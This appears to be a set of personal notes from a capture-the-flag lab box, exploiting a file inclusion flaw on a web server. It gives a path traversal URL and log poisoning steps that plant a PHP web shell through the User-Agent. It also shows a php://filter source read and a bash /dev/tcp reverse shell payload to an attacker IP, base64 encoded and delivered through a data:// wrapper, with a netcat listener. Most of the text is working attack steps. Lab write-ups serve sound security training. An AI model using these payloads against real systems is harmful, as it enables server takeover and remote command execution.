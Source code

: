 ip = 10.129.72.166

nmap report

just port 80

---

http port 80 works

file traversing works!

ubuntu

---

http://10.129.72.166/?file=../../../../../../../../../etc/ldap/ldap.conf

file traversing works. not useful for this particular box but you can use log poisoning to embed some malicious php which can be detonated by including that file.

Log Poisoning Techniques:

Apache logs: ?file=../../../var/log/apache2/access.log

Poison via User-Agent: <?php system($_GET['cmd']); ?>

SSH logs: ?file=../../../var/log/auth.log

SSH with username containing PHP code

Mail logs: ?file=../../../var/log/mail.log

---

php injection works - ?file=php://filter/read=convert.base64-encode/resource=index.php

---

Create the reverse shell payload:
php<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.147/443 0>&1'"); ?>
Base64 encode it:
bashecho "<?php system(\"bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'\"); ?>" | base64 -w 0
Set up your listener first:
bashnc -lvnp 4444
Deliver the payload:
?file=data://text/plain;base64,[YOUR_BASE64_ENCODED_PAYLOAD]
Replace YOUR_IP with your actual IP address in the payload before encoding.

---

**_php-payload-stage1.php_**

```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.147/443 0>&1'"); ?>
```

**_php-payload-stage2.php_**

```php
data://text/plain;base64,PD9waHAgc3lzdGVtKCJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE0Ny80NDMgMD4mMSciKTsgPz4K
```
